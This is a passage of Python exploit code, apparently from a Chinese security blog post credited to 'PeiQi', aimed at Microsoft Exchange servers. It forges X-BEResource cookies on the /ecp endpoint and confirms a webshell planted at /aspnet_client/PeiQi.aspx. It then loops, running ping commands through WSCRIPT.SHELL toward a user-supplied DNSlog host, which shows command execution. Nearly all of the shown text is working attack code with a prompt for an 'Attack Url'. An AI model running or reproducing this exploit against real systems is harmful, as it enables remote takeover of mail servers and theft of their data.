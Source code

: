 ```
    })
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?{}#~1941962753;ASP.NET_SessionId={};msExchEcpCanary={}'.format(computer_name, vuln_url, qs, session_id, canary),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    print("\033[32m[o] 清除 OAB\033[0m")
    print("\033[32m[o] 正在验证 Webshell是否上传成功..........\033[0m")
    webshell_url = "https://" + target_url + "/aspnet_client/PeiQi.aspx"
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.get(url=webshell_url, verify=False, allow_redirects=False)
    if response.status_code == 200 and "Name" in response.text:
        print("\033[32m[o] 上传 Webshll成功, 地址为:{}\033[0m".format("https://" + target_url + "/aspnet_client/PeiQi.aspx"))
        print("\033[32m[o] 响应为:\n{}\033[0m".format(response.text))
        while True:
            Dnslog = str(raw_input("\033[35mDnslog >>> \033[0m"))
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            Dnslog_url = "https://" + target_url + '/aspnet_client/PeiQi.aspx?PeiQi=new ActiveXObject("WSCRIPT.SHELL").Run("ping {}");'.format(Dnslog)
            response = requests.get(url=Dnslog_url, verify=False, allow_redirects=False)
            print("\033[32m[o] 执行命令 ping {}\033[0m".format(Dnslog))
            print("\033[32m[o] 请检查 Dndslog 响应\033[0m")
    
        
    

if __name__ == '__main__':
    title()
    target_url = str(raw_input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Email = "Administrator@{}".format(get_fld("https://" + target_url))
    print("\033[32m[o] 请求地址:{}，使用的邮箱:{}\033[0m".format(target_url, Email))
    POC_1(target_url, Email)
```

  

**_作者_**

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzBB4zjPmsGtOzpVJFAtC9kKDEQVRspoMd4yXGdPEjdL3aibq1CE7e3Rn3c2jxiaFSKxmcFM1rEgib7dg/640?wx_fmt=png)

PeiQi
